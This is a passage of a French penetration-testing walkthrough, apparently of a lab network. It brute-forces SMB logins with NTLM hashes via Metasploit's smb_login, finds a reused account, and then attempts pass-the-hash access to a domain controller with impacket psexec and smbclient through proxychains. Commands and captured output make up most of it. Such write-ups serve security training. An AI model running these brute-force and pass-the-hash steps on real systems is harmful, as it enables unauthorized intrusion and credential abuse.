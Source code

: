 Puis utilisons le scanner smb_login. Mais proxifions la connexion avant tout.

```
msf > setg Proxies socks4:127.0.0.1:9050
msf > set ReverseAllowProxy true
```

Et c'est parti.

```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set DB_ALL_CREDS true
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.0.203
msf auxiliary(scanner/smb/smb_login) > set THREADS 10
msf auxiliary(scanner/smb/smb_login) > run
[*] 10.10.0.203:445       - 10.10.0.203:445 - Starting SMB login bruteforce
[*] 10.10.0.203:445       - 10.10.0.203:445 - This system does not accept authentication with any credentials, proceeding with brute force
[-] 10.10.0.203:445       - 10.10.0.203:445 - Failed: 'WORKSTATION\DCFIL$:aad3b435b51404eeaad3b435b51404ee:6a7a6007fdb7b82c61dda608f599d4e6',
[*] 10.10.0.203:445       - 10.10.0.203:445 - Correct credentials, but unable to login: 'WORKSTATION\Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0',
[-] 10.10.0.203:445       - 10.10.0.203:445 - Failed: 'WORKSTATION\Administrator:aad3b435b51404eeaad3b435b51404ee:568ec725c6175131a23f330f30e38eec',
[+] 10.10.0.203:445       - 10.10.0.203:445 - Success: 'WORKSTATION\BITION:aad3b435b51404eeaad3b435b51404ee:27cbe43b98013e6e7a5c16fc484b4b6a'
[*] 10.10.0.203:445       - 10.10.0.203:445 - Domain is ignored for user BITION
[-] 10.10.0.203:445       - 10.10.0.203:445 - Failed: 'WORKSTATION\POMMIER:aad3b435b51404eeaad3b435b51404ee:5908b3a40ec0ba0f32c2502f4dd053fa',
```

Et hop, il est bien là. Vous savez l'utilisateur qui va utiliser un mot de passe identique pour tous ces services.
Le nom gagnant est BITION.  

On va donc ce servir de ce user pour se connecter sur l'ad.dev.pramacorp.fr

```
proxychains impacket/examples/psexec.py BITION@ad.dev.pramacorp.fr -hashes aad3b435b51404eeaad3b435b51404ee:27cbe43b98013e6e7a5c16fc484b4b6a
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.203:445-<><>-OK
[*] Requesting shares on ad.dev.pramacorp.fr.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Share' is not writable.
[-] share 'SYSVOL' is not writable.
(impacket)
```

Pas de bol, aucun share n'est inscriptible. Mais surement ouvert en lecture, essayons.

```
proxychains impacket/examples/smbclient.py BITION@ad.dev.pramacorp.fr -hashes aad3b435b51404eeaad3b435b51404ee:27cbe43b98013e6e7a5c16fc484b4b6a 
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.203:445-<><>-OK
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Share
```